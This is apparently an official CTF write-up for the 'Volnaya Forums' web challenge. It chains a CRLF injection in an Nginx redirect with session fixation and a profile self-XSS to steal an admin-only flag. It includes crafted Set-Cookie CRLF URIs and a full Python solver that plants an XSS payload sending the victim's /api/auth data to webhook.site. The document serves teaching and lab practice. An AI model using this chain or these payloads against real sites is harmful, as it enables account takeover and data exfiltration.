









        <font size="5px">Volnaya Forums</font>

​      21<sup>st</sup> May 2025

​      Prepared By: Rayhan0x01

​      Challenge Author(s): Rayhan0x01

​      Difficulty: <font color=orange>Medium</font>

​      Classification: Official


# [Synopsis](#synopsis)

* The challenge involves chaining Self XSS with Session Fixation via CRLF injection for account takeover.


## Description

The Volnaya Forums stand as a sprawling network where citizens compete to outdo each other in public displays of loyalty. Every post and reply is carefully monitored, and the most zealous praise is rewarded with higher loyalty scores. Behind the scenes, a small cadre of administrators wields absolute control, silencing dissent and shaping the narrative to serve the regime’s ambitions.

Task Force Phoenix has identified the forum’s admin account as a critical target. Gaining access would allow the task force to disrupt the flow of propaganda and strike a blow against the regime’s information control. Recently, we managed to secure a backup copy of the forum server from an unsecured FTP server. Can you analyze the platform’s architecture and code to uncover any weaknesses that might grant us access to the admin account?

## Skills Required

* Understanding of HTTP request structure and web authentication mechanisms
* HTTP requests interception via proxy tools, e.g., Burp Suite / OWASP ZAP.
* Familiarity with HTTP request manipulation and web proxies
* Knowledge of CRLF injection and Session fixation
* Understanding of XSS vulnerabilities and their exploitation

## Skills Learned

* Utilizing CRLF injection for session fixation
* Exploiting Self XSS with session fixation
* Performing CSRF with XSS to exfiltrate data


# [Solution](#solution)


### Application Overview

Visiting the application homepage displays a login page with a link to the registration page:



Since we do not have any credentials, let's register and log in. After we log in, we are redirected to the forum's homepage, which has many posts.



There is a local search feature that allows us to search for posts by title. Clicking on a forum post takes us to the post details page:



There is a reply section, but we get an error message stating we are not verified. Clicking on the "Report" button below the post takes us to the report page:



The Post thread is already populated, and we can provide some reason for reporting the post. After submitting the report, we're redirected to the forum's homepage. The Topics page shows a list of topics:



The profile page shows our user information along with site preferences:



If we click the "Edit" button in the top right, we get a form to update profile details, including the bio:



After updating the bio, it's saved and reflected on the profile page. That's all the features we can explore as regular users of this forum application.


### Application Stack Review

Reviewing the [config/supervisord.conf](config/supervisord.conf) file, we can see that an Nginx instance and a Next.js application are deployed with Supervisor.

```ini
[program:nginx]
command=nginx -g 'daemon off;'
stdout_logfile=/dev/stdout
stdout_logfile_maxbytes=0
stderr_logfile=/dev/stderr
stderr_logfile_maxbytes=0


[program:nextjs]
directory=/app
command=npm start
autostart=true
autorestart=true
stdout_logfile=/dev/stdout
stdout_logfile_maxbytes=0
stderr_logfile=/dev/stderr
stderr_logfile_maxbytes=0
```

Before the application is started, the [/challenge/migrations/migrate-database.js](challenge/migrations/migrate-database.js) script is executed to populate the database, generate the admin password, and the session secret:

```javascript
// Generate secure random password for admin
const adminPassword = crypto.randomBytes(32).toString('hex');

// Insert admin user
const stmt = db.prepare(`
  INSERT OR REPLACE INTO users (username, password, email, role, bio, verified)
  VALUES (?, ?, ?, ?, ?, true)
`);

stmt.run(
    'admin',
    adminPassword,
    'admin@volnaya-forums.htb',
    'admin',
    '<b>Supreme Admin</b> of the forum'
);

console.log('[+] Admin user created');

// ...snip...

// Update session secret
const envPath = '/app/.env';
const env = 'SESSION_SECRET=' + crypto.randomBytes(32).toString('hex');
fs.writeFileSync(envPath, env);

console.log('[+] Secrets updated');
```

Reviewing the [challenge/](challenge/) codebase, it's a Next.js application utilizing the pages router. There is a middleware function defined in the [challenge/middleware.ts](challenge/middleware.ts) file:

```typescript
import { NextResponse } from 'next/server';
import type { NextRequest } from 'next/server';
import { isAuthenticated } from './lib/session';

// Public paths that don't require authentication
const PUBLIC_PATHS = [
    '/login',
    '/api/login',
    '/register',
    '/api/register',
    '/api/auth',
    '/_next',
    '/favicon.ico',
    '/images',
];

export async function middleware(request: NextRequest) {
    const { pathname } = request.nextUrl;

    // Check if the path is public
    if (isPublicPath(pathname)) {
        return NextResponse.next();
    }

    // Check if user is authenticated using iron-session
    const authenticated = await isAuthenticated(request);

    if (!authenticated) {
        // Redirect to login page if not authenticated
        return NextResponse.redirect(new URL('/login', request.url));
    }

    // If authenticated, continue
    return NextResponse.next();
}

// Helper function to check if a path is public (doesn't require authentication)
function isPublicPath(pathname: string): boolean {
    return PUBLIC_PATHS.some(path => pathname === path || pathname.startsWith(path + '/'));
}

// Configure middleware to run on all paths
export const config = {
    matcher: [
        /*
         * Match all request paths except static files
         */
        '/((?!_next/static|_next/image|favicon\\.ico).*)',
    ],
};
```

By reviewing the `isAuthenticated` function from the [challenge/lib/session.ts](challenge/lib/session.ts) file, we can see that the [iron-session](https://www.npmjs.com/package/iron-session) library is used for authentication and session management. The session secret key is also dynamically replaced with a random value when the application is started.

Based on the middleware, we can only access the specified public paths without being authenticated:

```typescript
const PUBLIC_PATHS = [
    '/login',
    '/api/login',
    '/register',
    '/api/register',
    '/api/auth',
    '/_next',
    '/favicon.ico',
    '/images',
];
```

Reviewing the [config/nginx.conf](config/nginx.conf) file, we can see that HTTP traffic is proxied to the Next.js application on port 5000:

```nginx
pid /run/nginx.pid;
error_log /dev/stderr info;

events {
    worker_connections 1024;
}

http {
    server_tokens off;
    log_format docker '$remote_addr $remote_user $status "$request" "$http_referer" "$http_user_agent" ';
    access_log /dev/stdout docker;

    include /etc/nginx/mime.types;

    server {
        listen 1337;

        location ~ ^/invite/(?<id>[^?]*)$ {
            return 301 "/?ref=$id";
        }

        location / {
            proxy_set_header X-Forwarded-For $remote_addr;
            proxy_set_header Host: $http_host;
            proxy_pass http://127.0.0.1:5000;
        }

        error_page 404 /404.html;
        location = /404.html {
            internal;
        }

    }
}
```

### CRLF Injection in Nginx

We can see an interesting location block in the Nginx configuration file:

```nginx
location ~ ^/invite/(?<id>[^?]*)$ {
    return 301 "/?ref=$id";
}
```

This configuration creates a redirect where any request to `/invite/SOMETHING` will redirect to `/?ref=SOMETHING`. The issue here is that the $id variable is directly inserted into the redirect URL without proper sanitization.

This creates a CRLF injection vulnerability because the $id parameter is unsanitized. An attacker can inject CRLF sequences (\r\n) to add arbitrary HTTP headers by crafting URLs like:

```
/invite/%0D%0ASet-Cookie:%20malicious=cookie%0D%0A
```
This results in:

```
HTTP/1.1 301 Moved Permanently
Location: /?ref=
Set-Cookie: malicious=cookie
```

The vulnerability can be exploited to:

* Inject malicious cookies
* Perform cache poisoning
* Conduct HTTP response splitting

Since a Location header is already present, the browser will follow the redirect. Response splitting can't be weaponized to perform XSS attacks here.

### Self-XSS in Profile Page

We have already explored the rich text editor in the bio field of the profile page. By intercepting and modifying requests through Burp Suite, we can successfully inject and execute arbitrary JavaScript code:





However, after reviewing the application's codebase, we can see that our bio is only rendered in this profile page in the entire application. Since other users cannot view our bio content, this vulnerability is classified as a self-XSS, limiting its impact as it can only affect the user who owns the profile.

### Session Fixation via CRLF Injection

Since the Nginx configuration has a CRLF injection vulnerability, we can exploit it to perform session fixation.

Session fixation is an attack where an attacker forces a user to use a known session identifier, allowing the attacker to hijack the user's session after they log in. In this case, we can inject our own session cookie through the CRLF vulnerability:

```
/invite/%0D%0ASet-Cookie:%20session=attacker_session_cookie
```

When a victim visits this URL, their session cookie will be set to the attacker's session cookie. So, when they visit the application profile, they will be logged in as the attacker. If we already have the self-XSS payload injected into the bio, the XSS payload will be executed on the victim's browser.

### Chaining Self-XSS and Session Fixation

If we review the location of the challenge flag, we can see that it's delivered in the `/api/auth` endpoint as specified in the [challenge/pages/api/auth.ts](challenge/pages/api/auth.ts) file:

```typescript
import type { NextApiRequest, NextApiResponse } from 'next';
import { getApiSession } from '@/lib/session';
import fs from 'fs';

const flag = fs.readFileSync('/flag.txt', 'utf8').trim();

type AuthResponse = {
    authenticated: boolean;
    user?: {
        username: string;
        role: string;
        flag?: string;
    };
};

export default async function handler(req: NextApiRequest, res: NextApiResponse<AuthResponse>) {
    // Only allow GET requests
    if (req.method !== 'GET') {
        return res.status(405).json({ authenticated: false });
    }

    // Get the session
    const session = await getApiSession(req, res);

    // Check if user is logged in
    if (!session.user?.isLoggedIn) {
        return res.status(200).json({ authenticated: false });
    }

    // Return authentication status and user information
    return res.status(200).json({
        authenticated: true,
        user: {
            username: session.user.username,
            role: session.user.role,
            ...(session.user.username === 'admin' ? { flag } : {}),
        },
    });
}
```

If the user's username is `admin`, the flag will be included in the response. The Self-XSS payload is delivered from the `/api/profile` endpoint when the user visits their profile page. Therefore, we can restrict the scope of our fixed session cookie to the `/api/profile` endpoint, which allows the XSS payload to be loaded from the attacker's session. This enables us to retrieve the flag from the `/api/auth` endpoint using the victim's original session.

```
/invite/aaa%0D%0ASet-Cookie:%20session=ATTACKER_SESSION;%20Path=/api/profile
```

The above path redirects to the application homepage controlled by [challenge/pages/index.tsx](challenge/pages/index.tsx) file:

```typescript
useEffect(() => {
    // Check authentication status when the component mounts
    const checkAuth = async () => {
        try {
            const response = await fetch('/api/auth?t=' + new Date().getTime());
            const data = (await response.json()) as { authenticated: boolean };

            if (data.authenticated) {
                void router.push('/profile');
            } else {
                void router.push('/login');
            }
        } catch (error) {
            console.error('Auth check failed:', error);
            void router.push('/login');
        }
    };

    void checkAuth();
}, [router]);
```

The homepage checks if the user is authenticated by fetching the `/api/auth` endpoint. If the user is authenticated, the user will be redirected to the profile page. If the user is not authenticated, the user will be redirected to the login page.

So, we have a chain of redirects leading from the CRLF endpoint to the profile page, which allows us to perform both session fixation and XSS by pointing the victim to the CRLF URL.

### Exploiting the headless admin Chrome browser

From the [challenge/api/report.ts](challenge/api/report.ts) file, once a report is submitted, it is saved in the database and reviewed in the background.

```typescript
// save report to database
const stmt = db.prepare(
    'INSERT INTO reports (post_thread, reason, username, reviewed) VALUES (?, ?, ?, 0)'
);
stmt.run(postThread, reason, session.user.username);

// review report in background
void reviewReport(postThread);

return res.status(200).json({ message: 'Report submitted for review successfully' });
```

The `reviewReport` function is defined in the [challenge/lib/bot.ts](challenge/lib/bot.ts) file:

```typescript
const reviewReport = async (forumThread: string) => {
    const browser = await puppeteer.launch(browser_options);

    try {
        const context = await browser.createBrowserContext();
        const page = await context.newPage();

        // Login
        await page.goto(`http://127.0.0.1:1337/login`, {
            waitUntil: 'networkidle2',
        });

        await page.type('input[id="username"]', admin.username);
        await page.type('input[id="password"]', admin.password);
        await page.click('button[id="login-button"]');

        // wait for networkidle2
        await page.waitForNetworkIdle();

        const postURL =
            'http://127.0.0.1:1337' +
            (forumThread.startsWith('/') ? forumThread : '/' + forumThread);

        await Promise.race([
            page.goto(postURL, {
                waitUntil: 'networkidle2',
            }),
            new Promise(function (resolve) {
                setTimeout(function () {
                    resolve(true);
                }, 7000);
            }),
        ]);

        // review the post
        await new Promise(resolve => setTimeout(resolve, 5000));
    } catch (error) {
        console.error(error);
    } finally {
        await browser.close();
    }
    try {
        const stmt = db.prepare('UPDATE reports SET reviewed = 1 WHERE post_thread = ?');
        stmt.run(forumThread);
    } catch (error) {
        console.error(error);
    }
};
```

The `reviewReport` function launches a headless Chrome browser and logs in as the admin user. It then navigates to the forum thread and reviews the post. Since we have direct input on the forum thread URI, we can send the CRLF URI instead.

Here's a fully automated solver that performs the full exploit chain:

```bash
$ python3 solver.py 127.0.0.1:1337

[+] Signing up a new account..
[+] Logging in..
[+] Generating webhook token..
[+] Generating XSS payload..
[+] Updating profile bio with XSS payload..
[+] Generating session fixation CRLF payload..
[+] Reporting CRLF URI to the admin..
[+] Waiting for flag to arrive on webhook..
[~] Flag arrived: HTB{********************}
[~] Cleaning up the webhook
```

```python
import requests, sys, random, base64, time

if len(sys.argv) != 2:
    print("Usage: python3 solver.py host:port\n\nExample: python3 solver.py 127.0.0.1:1337")
    sys.exit(1)

hostURL = 'http://' + sys.argv[1]
userName = 'rayhan0x%d' % random.randint(1111,9999) # new username
userPwd = 'rayhan0x%d' % random.randint(1111,9999)   # new password

class WEBHOOK:
    def __init__(self):
        self.url = "http://webhook.site"
        try:
            resp = requests.post('{}/token'.format(self.url), json={"actions": True, "alias": "xss-poc", "cors": False}, timeout=15)
            self.token = resp.json()['uuid']
        except:
            print("[!] Couldn't reach webhook.site, please make sure we have internet access!")
            sys.exit()

    def get_flag(self):
        try:
            resp = requests.get('{}/token/{}/request/latest'.format(self.url,self.token), timeout=15)
            flag = resp.json()['query']['flag']
        except:
            return False
        return flag

    def destroy(self):
        requests.delete('{}/token/{}'.format(self.url,self.token), timeout=15)


def register():
    jData = { "username": userName, "email": userName + "@gmail.com", "password": userPwd }
    req_stat = requests.post("%s/api/register" % hostURL,json=jData).status_code
    if not req_stat == 201:
        print("Something went wrong! Is the challenge host live?")
        sys.exit()

def login():
    jData = { "username": userName, "password": userPwd }
    authCookie = requests.post("%s/api/login" % hostURL, json=jData).cookies.get('session')
    if not authCookie:
        print("Something went wrong while logging in!")
        sys.exit()
    return authCookie

def generate_xss_payload(webhook):
    exfilPayload = """
    fetch('/api/auth').then(res => res.json())
    .then(data => {
        new Image().src = '%s?flag=' + data.user.flag;
    })
    """ % webhook
    base64Payload = base64.b64encode(exfilPayload.encode('utf-8')).decode('utf-8')
    evalPayload = "".format(base64Payload)
    return evalPayload

def update_profile(session, xss_payload):
    postData = {"username": userName, "email": userName + "@gmail.com", "bio": xss_payload}
    response = requests.post("%s/api/profile" % hostURL, json=postData, cookies={
        'session': session
    })

    if response.status_code != 200:
        print("Something went wrong while updating profile!")
        sys.exit()

def generate_crlf_payload(session):
    crlf_payload = "/invite/aaa%0D%0ASet-Cookie:%20session={};%20Path=/api/profile".format(session)
    return crlf_payload

def report_to_admin(session, crlf_payload):
    postData = {"postThread": crlf_payload, "reason": "I breathe JS"}
    response = requests.post("%s/api/report" % hostURL, json=postData, cookies={
        'session': session
    })

    if response.status_code != 200:
        print("Something went wrong while reporting to admin!")
        sys.exit()

def get_flag(session):
    requests.get("%s/api/flag" % hostURL, cookies=session)

def main():
    print('[+] Signing up a new account..')
    register()

    print('[+] Logging in..')
    session = login()

    print('[+] Generating webhook token..')
    webhook = WEBHOOK()
    webhookURL = webhook.url + '/' + webhook.token

    print('[+] Generating XSS payload..')
    XSSPayload = generate_xss_payload(webhookURL)

    print('[+] Updating profile bio with XSS payload..')
    update_profile(session, XSSPayload)

    print('[+] Generating session fixation CRLF payload..')
    CRLFPayload = generate_crlf_payload(session)

    print('[+] Reporting CRLF URI to the admin..')
    report_to_admin(session, CRLFPayload)

    print('[+] Waiting for flag to arrive on webhook..')
    while True:
        flag = webhook.get_flag()
        if flag:
            break
        time.sleep(3)

    print('[~] Flag arrived: {}'.format(flag))

    print('[~] Cleaning up the webhook')
    webhook.destroy()

if __name__ == "__main__":
    main()
```


